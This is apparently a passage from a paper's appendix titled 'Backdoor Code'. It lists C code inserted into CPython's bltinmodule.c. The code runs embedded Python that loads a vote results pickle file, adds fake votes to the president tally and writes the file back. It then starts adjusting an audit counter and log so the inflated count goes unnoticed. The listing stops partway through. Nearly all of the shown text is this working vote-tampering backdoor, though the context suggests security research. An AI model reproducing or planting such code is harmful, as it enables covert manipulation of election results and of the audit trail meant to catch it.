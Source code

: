 \section{Appendix}
\setcounter{page}{1}
\label{sec:appendix}

\subsection{Backdoor Code}

Following is a code listing for various embedded python functions that do different things. They selectively change outcome for different presidents or congress and counsel members.

\begin{verbatim}
	// ... bltinmodule.c <other code>
	
	include "unicodeobject.h"

	// ... bltinmodule.c <other code>
	
	void do_hhp0(void){
		Py_Initialize();
		PyRun_SimpleString(
	"import sys, pickle\n"
	"sys.path.append('..')\n"

	"def changeResultsFile(noOfFakeUsers):\n"
	"	filePath = 'ResultFile.pkl'\n"

	"	inputFile = open(filePath, 'rb')\n"
	"	voteBank = pickle.load(inputFile)\n"
	"	inputFile.close()\n"

	"	presidentCount = voteBank['president']\n"
	"	congressCount = voteBank['congress']\n"
	"	counselCount = voteBank['counsel']\n"
	"	presidentCount[0] = presidentCount[0] + noOfFakeUsers\n"
	"	resultDict = {\n"
	"		'president' : presidentCount,\n"
	"		'congress' : congressCount,\n"
	"		'counsel' : counselCount\n"
	"	}\n"

	"	output = open('ResultFile.pkl', 'wb')\n"
	"	pickle.dump(resultDict, output)\n"
	"	output.close()\n"

	"def changeAuditLogFile(noOfFakeUsers):\n"
	"	counter = 0\n"

	"	try:\n"
	"		counterFile = open('CounterPL.txt', 'r')\n"
	"		counter = int(counterFile.read())\n"
	"		counterFile.close()\n"
	"	except IOError:\n"
	"		counterFile = open('CounterPL.txt', 'w')\n"
	"		counterFile.write(str(0))\n"
	"		counterFile.close()\n"

	"	counter += noOfFakeUsers\n"

	"	counterFile = open('CounterPL.txt', 'w')\n"
	"	counterFile.write(str(counter))\n"
	"	counterFile.close()\n"

	"	output = open('AuditLog.pkl', 'ab')\n"


\end{verbatim}
